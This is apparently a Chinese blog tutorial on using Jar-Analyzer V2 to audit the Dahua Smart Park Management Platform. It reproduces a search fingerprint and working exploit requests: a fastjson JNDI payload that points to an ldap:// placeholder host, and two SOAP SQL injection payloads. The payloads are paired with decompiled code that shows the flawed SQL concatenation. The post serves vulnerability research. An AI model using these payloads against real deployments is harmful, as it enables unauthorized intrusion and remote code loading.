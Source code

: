 # 代码审计工具篇-Jar-Analyzer V2



## 为什么使用Jar-Analyzer V2

主要使用的原因有：1.电脑有点拉，我的丐版m1启动idea放个大点的oa进去就要红温了😇而Jar-Analyzer V2生成数据库查询时cpu占用率只有百分之十几。2.在审计时我喜欢看一下以前的漏洞的原理，自己手动翻太麻烦了急需自动化，所以当时看到许少的Jar-Analyzer就下下来用了一哈。



之前许少最开始的项目是jar-analyzer-cli，跑完项目之后生个一个数据库，需要自己写sql语句查询，现在的话可以直接gui用方法调用搜索或者spel或者sql语句查询，工具本身也自带了一键查询常见java漏洞的功能，并且可以一键分析Spring Controller/Mapping(虽然有的会漏掉)，此外还有call功能查看调用关系，所以Jar-Analyzer V2对于漏洞复现国产oa漏洞和挖掘0day还是十分方便的。



下面以大华举例复现一下漏洞，大华有不少fastjson漏洞

## 大华 智慧园区管理平台

## 指纹

app.name="Dahua 大华 智慧园区管理平台"



如下面这个公开的fastjson漏洞

```
POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1
Host: Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9Cookie: yourCookieConnection: close
Content-Type: application/json
Content-Length: 189

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://x.x.x.x","autoCommit":true}}}
```

直接拿Jar-Analyzer V2将CardSolution文件夹导入或者直接将整个项目导入，直接使用查找fastjson漏洞功能

![image-20240508113012236](Images/98b93bed7eaca1e9963c1bd1ef3d9011.png)



在查询结果找一下哪些类有deleteFtp就好了

![d5d31d61b557bfaa288cc5735b5443ca](Images/9c59ff1aefe40bc291914b5abb76b38a.png)



下面来查找一下大华存在的sql注入



```
POST /portal/services/clientServer HTTP/1.1
Host:xxx
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:cli="http://clientServer.webservice.dssc.dahua.com">
  <soapenv:Header/>
  <soapenv:Body>
  <cli:getGroupInfoListByGroupId>
    <!--type: string-->
      <arg0>-5398) UNION ALL SELECT 5336,5336,5336,5336,md5(123456)-- -</arg0>
    <!--type: long-->
    <arg1>10</arg1>
    </cli:getGroupInfoListByGroupId>
    </soapenv:Body>
  </soap:Envelope>
```

从poc中getGroupInfoListByGroupId中存在sql注入，直接方法调用查询getGroupInfoListByGroupId，然后来到serviceimpl文件中，可以看到第一个参数会传入getGroupInfoBeanListByGroupId中

![image-20240508160615452](Images/7f91f11db28600392bacc5a2625ba157.png)

```
   public String getGroupInfoListByGroupId(String groupId, Long id) {
      try {
         returnBean.setResult("true");
         List groupInfoList = this.groupInfoManagerImpl.getGroupInfoBeanListByGroupId(groupId);
      }
   }

```

继续查询getGroupInfoBeanListByGroupId

![image-20240508160759877](Images/914b51f03d2724dcb016ec35f83d9515.png)

可以看到又被传入groupInfoDaoImpl.getGroupInfoBeanListByGroupId，直接打开groupInfoDaoImpl

源码大致如下

```
   public List getGroupInfoBeanListByGroupId(String groupId) {
      String sql = "select x from x t left join  ( select  xxx) temp on xx = x  where 1=1 ";
      if (null != groupId && !StringUtil.isEmpty(groupId)) {
         sql = sql + " and  " + this.getOracleSqlIn(groupId, "t.groupid");
```

可以看到这里 sql = sql + " and  " + this.getOracleSqlIn(groupId, "t.groupid");直接拼接导致sql注入





大华的另一个getNewStaypointDetailQuery也可以这样快速定位出来

```
POST /portal/services/carQuery/getNewStaypointDetailQuery HTTP/1.1
Host:xxx
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/xml;charset=UTF-8
Content-Length: 491

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:car="http://carQuery.webservice.dssc.dahua.com">
<soapenv:Header/>
<soapenv:Body>
<car:getNewStaypointDetailQuery>
<!--type: string-->
<searchJson>{}</searchJson>
<!--type: string-->
<pageJson>{"orderBy":"1 and 1=updatexml(1,concat(0x7e,md5(123456),0x7e),1)--"}</pageJson>
<!--type: string-->
<extend>quae divum incedo</extend>
</car:getNewStaypointDetailQuery>
</soapenv:Body>
</soapenv:Envelope>
```

